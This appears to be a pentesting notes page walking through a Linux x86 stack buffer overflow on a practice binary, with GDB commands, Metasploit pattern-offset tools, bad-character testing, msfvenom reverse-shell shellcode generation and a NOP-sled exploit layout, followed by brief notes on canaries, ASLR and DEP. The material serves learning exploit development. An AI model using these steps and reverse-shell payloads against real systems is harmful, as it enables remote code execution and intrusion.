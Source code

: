 # Buffer Overflow

{% hint style="info" %}
Buffer overflow is an **anomaly** that occurs when **software writing data to a buffer overflows the buffer’s capacity**, resulting in **adjacent memory locations being overwritten**.

_In other words, too much information is being passed into a container that does not have enough space, and that information ends up replacing data in adjacent containers._

Buffer overflows can be exploited by attackers with a goal of modifying a computer’s memory in order to undermine or take control of program execution.
{% endhint %}

![BOF](<../.gitbook/assets/image (63).png>)

### Check file type

```bash
file bow32 | tr "," "\n"
```



### How to attack ?

![](<../.gitbook/assets/image (39).png>)

#### 1 : Testing the Crash

![](<../.gitbook/assets/image (114).png>)

```bash
#Python command to BOF
run $(python -c "print '\x55' * 1200")

#To confirm the exact number of Bytes needed 
info registers eip
```

#### 2 : Finding the EIP Offset

![](<../.gitbook/assets/image (13).png>)

```bash
# Generate a more precise pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

# Run the pattern using python
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

# Locate the exact memory address where the BOF occurs
info registers eip

# Use the memory address to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

![](<../.gitbook/assets/image (146).png>)

#### 3 : Finding Shellcode Space : General

```bash
# Calculate the required padding for the payload
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

#### 4 : First Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

#### 5 : Finding Shellcode Space : Garbage + NOPs + Payload + EIP

![](<../.gitbook/assets/image (2) (1) (1) (1).png>)

```bash
    # Pre-final padding (Garbage - NOPs - Payload - EIP)
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4'
```

```bash
# Pre-final BOF Exploit
# Must check for Bad Chars before executing
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![](<../.gitbook/assets/image (116).png>)

#### 6 : Testing for Bad Chars

⚠️ **FACULTATIVE**, BUT... MUST CHECK WHEN USING **ONLINE SHELLCODES** ⚠️

```bash
    # Most Bad Chars
    \x00 - Null Byte
    \x0A - Line Feed
    \x0D - Carriage Return
    \xFF - Form Feed
    \x09
    \x20
```

### How to find bad Chars

```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

```bash
    ## Padding to check Bad Chars
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```

```bash
# Prep for testing Bad Chars
disas main
break bowfunc 
```

```bash
# Run Python script
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```bash
# Check for memory in break for \x00 (Must follow the $CHAR pattern)
x/2000xb $esp+500
# Check image below
```

![](<../.gitbook/assets/image (18).png>)

#### 1 : Final Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

#### 2 : Finding JMP EIP

```bash
   # Enter the payload
   # Next focus on the placement of EIP (return address)
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
   EIP = "\x66" * 4'
```

```bash
# Python command to locate EIP
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

![](<../.gitbook/assets/image (9) (1).png>)

⚡ **Choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address.**

![](<../.gitbook/assets/image (40).png>)

#### 🚨 **Execute the Payload | Rain Hell on 'em** 🚨

```bash
   # 🚨 NOTE!! Payload must be run outside GDB, Duhh!! 🚨
   # Final Padding
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP = "\x4c\xd6\xff\xff"
```

### GDB Syntax

```bash
set disassembly-flavor intel

disassemble main

disas bowfunc

info registers 

info registers eip
i r $eip
```

![](<../.gitbook/assets/image (36).png>)

![](<../.gitbook/assets/image (81).png>)

![](<../.gitbook/assets/image (74).png>)

### How to protect ?

* **Canaries** The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.
* **Address Space Layout Randomization (ASLR)** Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
* **Data Execution Prevention (DEP)** DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.
